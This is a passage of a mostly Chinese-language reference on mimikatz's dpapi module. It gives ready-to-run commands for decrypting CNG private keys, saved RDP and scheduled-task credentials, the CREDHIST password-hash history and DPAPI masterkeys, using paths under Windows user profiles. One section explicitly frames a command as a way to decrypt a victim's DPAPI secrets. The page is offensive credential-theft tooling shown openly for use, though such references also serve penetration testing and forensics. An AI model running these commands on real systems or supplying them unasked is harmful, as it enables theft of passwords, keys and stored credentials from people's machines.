 ```

## cng

> decrypts a given CNG private key file. According to this document, the Crypto Next Generation (CNG) API is a successor of of Crypto API (CAPI).

```
mimikatz # dpapi::cng /in:"C:\Users\m3g9tr0n\AppData\Roaming\Microsoft\Crypto\Keys\de7cf8a7901d2ad13e5c67c29e5d1662_e4aad2d1-5ec0-4ea4-b259-65eda5bc47a8" /unprotect
```


## create

从原始密钥和元数据创建一个DPAPI主密钥文件。当你想在你的机器上解密一个受害者的DPAPI机密时，它就会派上用场。
```
mimikatz # dpapi::create /guid:{5c22983f-77ee-41e4-9086-8073d664e417} /key:3f7a17dd6658319fcd4b832afc20ac7dacbb9d7cd668527c71f98e90464624634c614a7923a3beb23c4e24dd718f2a8e838ce72935fb29f11507affb543a53c3 /password:Super_SecretPass /protected
```

## cred
解密DPAPI保存的凭证，如RDP、计划任务等。
```
mimikatz # dpapi::cred /in:%systemroot%\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\AA10EB8126AA20883E9542812A0F904C
```

## credhist
描述了一个Credhist文件。Passcape提到，CREDHIST是一个密码历史文件，做为一个链条，其中每个链接代表用户的旧密码哈希值（NT和SHA1）。每次用户改变密码时，旧的密码哈希值被附加到文件中，并以新的密码进行加密。

```
mimikatz# dpapi::credhist in:"C:\users<UserName>\appdata\Roaming\Microsoft\Protect\CREDHIST"
```

## masterkey

描述了一个Masterkey file，并解开了每个Masterkey 的保护（取决于密钥）。换句话说，它可以从活动目录中解密和请求Masterkey 

```
mimikatz # dpapi::masterkey /in:"%appdata%\Microsoft\Protect\S-1-5-21-1719172562-3308538836-3929312420-1104\cc6eb538-28f1-4ab4-adf2-f5594e88f0b2"
```

## protect

通过DPAPI调用保护数据
```
mimikatz # dpapi::protect /data:"Hello Mimikatz"

mimikatz # dpapi::protect /data:"Hello Mimikatz" /c

